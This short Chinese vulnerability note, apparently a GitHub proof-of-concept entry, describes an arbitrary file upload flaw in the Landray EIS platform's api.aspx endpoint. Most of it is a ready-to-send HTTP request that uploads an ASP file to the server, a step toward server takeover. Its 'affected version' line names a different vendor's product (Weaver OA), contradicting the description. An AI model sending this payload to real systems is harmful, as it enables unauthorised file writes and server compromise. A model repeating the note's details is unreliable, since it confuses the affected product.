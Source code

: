 **漏洞描述：**

蓝凌EIS 智慧协同平台api.aspx接口存在任意文件上传漏洞，攻击者可以利用接口写入文件，获取服务器权限。

**影响版本：**

泛微OA

**Payload：**

```jsx
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (X11; U; Linux x86_64; zh-CN; rv:1.9.2.10) Gecko/20100922 Ubuntu/10.10 (maverick) Firefox/3.6.10
Content-Length: 172
Content-Type: multipart/form-data; boundary=---***
Accept-Encoding: gzip, deflate, br
Connection: close

-----***
Content-Disposition: form-data; name="file"; filename="test.asp"
Content-Type: text/html

<% response.write("W8jwFQz7zkxLxXaUXp2BTB0O3rSSvnqb")%>
-----***--
```

---
